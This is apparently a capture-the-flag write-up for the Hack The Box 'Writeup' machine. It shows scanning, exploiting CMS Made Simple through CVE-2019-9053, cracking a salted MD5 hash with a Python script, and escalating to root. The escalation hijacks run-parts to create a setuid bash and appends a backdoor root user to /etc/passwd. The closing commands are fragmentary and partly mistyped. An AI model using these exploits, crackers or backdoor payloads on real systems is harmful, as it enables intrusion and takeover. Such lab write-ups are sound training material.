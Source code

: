 ## --------->> WriteUp <<-----------

(Attached file -> hash_dec.py)
// We start with nmap scan

    $ nmap -sV -A -Pn 10.10.10.138 -p-
----

    Nmap scan report for 10.10.10.138
    Host is up (0.17s latency).
    Not shown: 65533 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
    |   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
    |_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    | http-robots.txt: 1 disallowed entry 
    |_/writeup/
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Nothing here yet.
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
// navigating to http://10.10.10.138/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/1.png)

// When tried to search for any directories in http://10.10.10.138/ with gobuster and dirsearch

// I had Errors, what means this site is protected as written in the site

// So, i tried to approach other way and navigate http://10.10.10.138/robots.txt 

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/2.png)

// There is mention of another directory '/writeup/'

// Navigating to http://10.10.10.138/writeup/

// Its seems like some writeups for HTB

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/3.png)

// Nothing special in the directories inside

// But, somthing Strange that cougth my eye waz the strange COOKIE (usually PESSID and here CMSSESSID)

    CMSSESSID9d372ef93962:"1nreh2bl6g859iaq65c12iqjb1"

// Lets use Tool wappalyzer - CMS finder

// for download the tool first need npm installer

    $ apt install npm

// then install wappalyzer tool

    $ npm i -g wappalyzer

// Now lets scan the CMS

    $ wappalyzer http://10.10.10.138/writeup/ | jq
    
// found cms !

    cms made simple
    
// Search exploit db cms made simple 2019    

// found python exploit for CVE:2019-9053, lets try him

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/4.png)

// Download the explot

    $ wget https://www.exploit-db.com/download/46635

// Run the exploit (work ONLY with python2)

    $ python 46635 -u http://10.10.10.138/writeup/
-----

    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7


// we can decrypted the hash at https://hashtoolkit.com/generate-hash/?text=salt

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/5.png)


// Or, we could use python library 'hashlib' to help us with small script(the script file added)

    $ cat hash_dec.py 
----

    import hashlib


    def crack_password():

        password = "62def4866937f08cc13bab43bb14e6f7"
        wordlist = "/usr/share/wordlists/rockyou.txt"
        salt = "5a599ef579066807"
        cracked = ''

        # open /usr/share/wordlists/rockyou.txt
        dictionary = open(wordlist)

        # Loop for compare hash to hash from rockyou.txt
        for line in dictionary.readlines():
        # drop down line to next passowrd
            line = line.replace("\n", "")
        # if "5a599ef579066807" + "somepassowrd" == "62def4866937f08cc13bab43bb14e6f7"
            if hashlib.md5(str(salt) + line).hexdigest() == password:
            # print cracked passowrd
                cracked += "\n[+] Password cracked: " + line
            # exit
                break
        print(cracked)


    crack_password()
    

!!! The script work only for that hash !!!

// run script (python2)

    $ python hash_dec.py 
-----

    [+] Password cracked: raykayjay9



// Lets connect user jkr with ssh

    $ ssh jkr@10.10.10.138

// We have connection !

    jkr@10.10.10.138's password: 
    Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    jkr@writeup:~$ id
    uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)

// and we got user flag !

    jkr@writeup:~$ cat user.txt 
    d4e493fd4.....................
    
### -----Privilleges Escalaltion----

// First we will run ![PSPY](https://github.com/DominicBreuker/pspy) tool to check our options

// For upload the tool on remote machine we will use python http server

    $ python3 -m http.server 1445
    Serving HTTP on 0.0.0.0 port 1445 (http://0.0.0.0:1445/) ...

// Download the tool with wget

    wget http://10.10.17.8:1445/pspy64 

// Give execute(+x) permissions

    jkr@writeup:/tmp/mytest$ chmod +x pspy64 

// And run the file

    jkr@writeup:/tmp/mytest$ ./pspy64 
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


         ██▓███    ██████  ██▓███ ▓██   ██▓
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                       ░           ░ ░     
                                   ░ ░    
       
     Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
    Draining file system events due to startup...
    done
    ........
    2021/08/02 14:53:50 CMD: UID=0    PID=10     | 
    2021/08/02 14:53:50 CMD: UID=0    PID=1      | init [2]   
    2021/08/02 14:54:01 CMD: UID=0    PID=2291   | /usr/sbin/CRON 
    2021/08/02 14:54:01 CMD: UID=0    PID=2292   | /usr/sbin/CRON 
    2021/08/02 14:54:01 CMD: UID=0    PID=2293   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
    2021/08/02 14:55:01 CMD: UID=0    PID=2294   | /usr/sbin/CRON 
    2021/08/02 14:55:01 CMD: UID=0    PID=2295   | /usr/sbin/CRON 
    2021/08/02 14:55:01 CMD: UID=0    PID=2296   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
    2021/08/02 14:55:59 CMD: UID=0    PID=2297   | sshd: [accepted]
    2021/08/02 14:56:00 CMD: UID=102  PID=2298   | sshd: [net]       
    2021/08/02 14:56:01 CMD: UID=0    PID=2299   | /usr/sbin/CRON 
    2021/08/02 14:56:01 CMD: UID=0    PID=2300   | /usr/sbin/CRON 
    2021/08/02 14:56:01 CMD: UID=0    PID=2301   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 


// We can see there is a proccess /root/bin/cleanup.pl running every minute

// When open another window and connect to jkr user with ssh i get logs in the pspy

    2021/08/02 14:56:17 CMD: UID=0    PID=2302   | sshd: jkr [priv]  
    2021/08/02 14:56:17 CMD: UID=0    PID=2303   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
    2021/08/02 14:56:17 CMD: UID=0    PID=2304   | run-parts --lsbsysinit /etc/update-motd.d 
    2021/08/02 14:56:17 CMD: UID=0    PID=2305   | uname -rnsom 
    2021/08/02 14:56:17 CMD: UID=0    PID=2306   | sshd: jkr [priv]  
    2021/08/02 14:56:18 CMD: UID=1000 PID=2307   | sshd: jkr@pts/1   
    2021/08/02 14:56:18 CMD: UID=1000 PID=2308   | -bash 
    2021/08/02 14:56:18 CMD: UID=1000 PID=2309   | -bash 
    2021/08/02 14:56:18 CMD: UID=1000 PID=2310   | -bash 
    2021/08/02 14:56:18 CMD: UID=1000 PID=2311   | -bash 
    2021/08/02 14:56:51 CMD: UID=1000 PID=2312   | -bash 

// what we can see here is that when a user logs in, root runs sh, that run /usr/bin/env, that provide a path and runs 'run-parts' on the 'update-motd.d' folder

// lets test write permissions on /usr/local/bin/run-parts

echo -e '#!/bin/bash\n\ncp /bin/bash /bin/SomeXFile\nchmod u+s /bin/SomeXFile' > /usr/local/bin/run-parts; chmod +x /usr.local.bin/run-parts

#!/bin/bash
echo 'rooot:gDlPrjU6SWeKo:0:0:root:/root:/bin/bash' >> etc/passwd

raykayjay9

